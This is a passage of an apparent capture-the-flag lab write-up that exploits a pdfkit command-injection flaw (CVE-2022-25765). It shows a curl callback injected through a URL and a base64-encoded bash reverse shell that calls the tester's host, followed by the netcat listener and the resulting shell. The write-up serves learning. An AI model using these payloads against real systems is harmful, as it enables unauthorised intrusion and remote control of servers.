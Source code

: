 We observe that it was generated with **pdfkit v0.8.6**, which is vulnerable to **CVE-2022-25765**. This vulnerability allows us to modify the URL and inject a payload like the following.

```bash
http://example.com/%20`curl http://10.10.14.16/test`
```

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.189 - - [09/Feb/2025 20:50:50] code 404, message File not found
10.10.11.189 - - [09/Feb/2025 20:50:50] "GET /test HTTP/1.1" 404 -
```

We see a response in our Python server, which confirms that the target is vulnerable. We can inject a reverse shell, either using Ruby or Bash.

## FOOTHOLD
---
Next, we create a reverse shell and execute it on the page.

```bash
http://example.com/%20'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDQ0IDA+JjE= | base64 -d | bash'
```

We listen on the encoded port (4444 in this case) and execute the payload.

```bash
nc -lvnp 4444
```

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.189] 42860
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$
```

If we investigate further, we will see a `.bundle` directory in the Ruby user's home directory.

```bash
ruby@precious:~$ ls -la
total 32
drwxr-xr-x 5 ruby ruby 4096 Feb  9 15:06 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 Feb  9 14:09 .cache
drwx------ 3 ruby ruby 4096 Feb  9 15:06 .gnupg
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```
